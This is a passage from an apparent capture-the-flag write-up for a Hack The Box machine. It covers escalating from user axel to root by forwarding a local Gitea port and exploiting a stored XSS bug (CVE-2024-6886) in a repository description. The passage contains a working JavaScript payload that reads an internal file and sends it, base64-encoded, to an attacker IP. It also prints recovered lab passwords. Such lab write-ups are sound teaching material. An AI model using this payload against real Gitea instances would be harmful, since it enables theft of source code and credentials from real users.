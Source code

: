 We got `axel`'s password `aNdZwgC4tI9gnVXv_e3Q`.

### axel -> root

Searching for file belonging to user `axel` I found `/var/mail/axel`. The following email looks interesting.

```temrinal
We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.
```

There is a website on port 3000 running locally.

Jobert also sent this message.

```terminal
Hi Axel,                                                                                       
                                               
We are planning to launch new cat-related web services, including a cat care website and other projects. Please send an email to jobert@localhost with information about your Gitea repository
. Jobert will check if it is a promising service that we can develop.

Important note: Be sure to include a clear description of the idea so that I can understand it properly. I will review the whole repository.
```

Let's forward the port 3000 to our machine.

```bash
ssh axel@cat.htb -L 3000:127.0.0.1:3000
```

![git](9.png)

It's a gitea instance.

Logging in as rosa we find it's version `1.22.0`.

A quick search on google we find that this version vulnerable to stored xss in the description field [CVE-2024-6886](https://www.exploit-db.com/exploits/52077).

Jobert told us that he would look at the description. Let's create a repo and put another xss payload there

```js
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(r => r.text()).then(data => fetch('http://10.10.16.4/?exfil=' + btoa(data)));">HACK!</a>
```

On our http server we'll receive the base64 encode of index.php, after decoding it we get the root's password.

```php
<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

```